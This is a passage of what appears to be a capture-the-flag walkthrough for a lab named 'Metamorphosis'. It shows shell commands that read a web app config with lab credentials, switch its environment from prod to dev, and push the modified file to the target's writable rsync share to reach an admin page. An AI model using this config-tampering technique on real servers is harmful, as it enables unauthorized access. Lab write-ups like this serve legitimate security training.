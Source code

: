 
```bash
root@ip-10-201-43-110:~/Metamorphosis# cd Challenge
root@ip-10-201-43-110:~/Metamorphosis/Challenge# ls
access.conf  bluezone.ini  debconf.conf  ldap.conf  lvm.conf  mysql.ini  php.ini  ports.conf  resolv.conf  screen-cleanup.conf  smb.conf  webapp.ini
root@ip-10-201-43-110:~/Metamorphosis/Challenge# cat webapp.ini
[Web_App]
env = prod
user = tom
password = theCat

[Details]
Local = No
root@ip-10-201-43-110:~/Metamorphosis/Challenge# nano webapp.ini
root@ip-10-201-43-110:~/Metamorphosis/Challenge# cat webapp.ini
[Web_App]
env = dev
user = tom
password = theCat

[Details]
Local = No
```




<img width="1244" height="401" alt="image" src="https://github.com/user-attachments/assets/db0a1065-cbbe-4717-98d1-adc0b6379e02" />



```bash
:~/Metamorphosis/Challenge# rsync -av webapp.ini rsync://10.201.70.130/Conf
sending incremental file list
webapp.ini

sent 186 bytes  received 41 bytes  454.00 bytes/sec
total size is 71  speedup is 0.31


<img width="1246" height="178" alt="image" src="https://github.com/user-attachments/assets/7b554e6e-9784-4be0-9241-91609abbf030" />

navigated to  10.201.70.130/admin/

<img width="1273" height="320" alt="image" src="https://github.com/user-attachments/assets/f900dfd7-3c74-4bb2-aae3-d84f8d2f6a00" />

Page source

<img width="1275" height="177" alt="image" src="https://github.com/user-attachments/assets/8325f8ab-02bf-47f5-9774-e301579925e0" />


10.201.70.130/admin/


lili
Submit Query

<img width="1277" height="329" alt="image" src="https://github.com/user-attachments/assets/24cc67f8-b663-4d7d-8c0c-73b953c91e99" />

10.201.70.130/admin/config.php

```